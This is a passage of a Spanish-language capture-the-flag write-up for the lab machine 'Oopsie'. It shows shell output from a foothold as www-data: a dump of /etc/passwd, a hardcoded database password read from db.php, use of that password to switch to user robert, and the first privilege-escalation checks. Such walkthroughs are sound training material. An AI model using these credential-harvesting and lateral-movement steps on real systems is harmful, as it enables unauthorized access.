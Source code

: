 ```bash 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
www-data@oopsie:/$ ls /home/
ls /home/
robert
www-data@oopsie:/$ 
```
Intento probar creedenciales sin éxito, asi que sigo mirando y en `/var/www/html`, que es un directorio común que se utiliza para almacenar archivos relacionados con el servidor web. Dentro de él encuentro un archivo llamado db.php con las creedenciales del usuario robert. 

```bash 
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```


<hr>
<h1 align="center" style="color:#dcdb00;"><b>ESCALADA DE PRIVILEGIOS</b></h1>


Consigo entrar dentro del usuario pero veo que no tiene permisos para ejecutar sudo. También muestro la info del user y encuentro que pertence a un grupo llamado "bugtracker".

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html/cdn-cgi/login$ cd
cd
robert@oopsie:~$ sudo -l
sudo -l
[sudo] password for robert: M3g4C0rpUs3r!

Sorry, user robert may not run sudo on oopsie.
robert@oopsie:~$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

